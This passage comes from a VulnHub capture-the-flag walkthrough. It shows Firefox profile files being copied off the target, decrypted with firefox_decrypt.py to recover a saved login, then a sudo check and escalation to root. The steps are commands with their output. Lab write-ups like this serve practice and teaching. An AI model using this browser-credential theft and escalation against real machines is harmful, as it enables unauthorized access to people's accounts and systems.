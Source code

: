 	- `key4.db`
	- `cookies.sqlite`
	- `logins.json`
	- `cert9.db`
3. Transfer to kali
4. Decrypt it

	```
	┌──(root💀kali)-[~/tools/firefox_decrypt]
	└─# python3 firefox_decrypt.py ~/vulnHub/HackMePlease/192.168.110.7/loot/firefox/
	2022-02-01 02:54:02,743 - WARNING - profile.ini not found in /root/vulnHub/HackMePlease/192.168.110.7/loot/firefox/
	2022-02-01 02:54:02,743 - WARNING - Continuing and assuming '/root/vulnHub/HackMePlease/192.168.110.7/loot/firefox/' is a profile location

	Website:   http://127.0.0.1
	Username: 'seeddms'
	Password: 'seedms'
	```

	- seeddms:seedms
5. Tried to switch to root w/ seeddms:seedms, failed
6. Check for sudo access

	```
	saket@ubuntu:~/.mozilla/firefox/jokfpwvh.default-release$ sudo -l
	[sudo] password for saket: 
	Matching Defaults entries for saket on ubuntu:
		env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

	User saket may run the following commands on ubuntu:
		(ALL : ALL) ALL
	saket@ubuntu:~/.mozilla/firefox/jokfpwvh.default-release$ sudo su
	```

7. Obtain root
	![](images/Pasted%20image%2020220201040217.png)
